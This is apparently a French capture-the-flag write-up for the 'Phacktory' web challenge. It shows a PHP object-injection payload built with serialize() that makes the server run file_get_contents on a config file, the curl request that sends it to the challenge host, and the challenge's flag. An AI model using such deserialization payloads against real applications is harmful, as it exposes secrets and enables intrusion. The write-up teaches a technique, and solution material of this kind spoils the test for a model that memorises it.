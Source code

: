# Phacktory
## Challenge

Un nouveau magasin de fabrication de chocolat ouvre en ville.  
Soit le premier à passer commande !


## Résolution

**Reconnaissance**

/backup.zip est présent

**Création de le charge utile.**

```php
$fact = new PHackTory();
$fact->type = "echo";
$fact->quantity = "file_get_contents('config-126546845171616835186.php');";
echo serialize($fact);
```

**Exploitation**

```bash
curl -X POST "http://phacktory.phack.fr?what=is&the=flag&please=O%3A9%3A%22PHackTory%22%3A3%3A%7Bs%3A4%3A%22type%22%3Bs%3A4%3A%22echo%22%3Bs%3A8%3A%22quantity%22%3Bs%3A32%3A%22file_get_contents%28%27config-126546845171616835186.php%27%29%3B%22%3Bs%3A5%3A%22order%22%3Bs%3A5%3A%22milky%22%3B%7D" --data "is=1539&cool"
```

## Setup

```
docker-compose up --build -d
```

## Flag

```
PHACK{l3s_cl0Ch3s_s0nT_p4s5ees_!}
```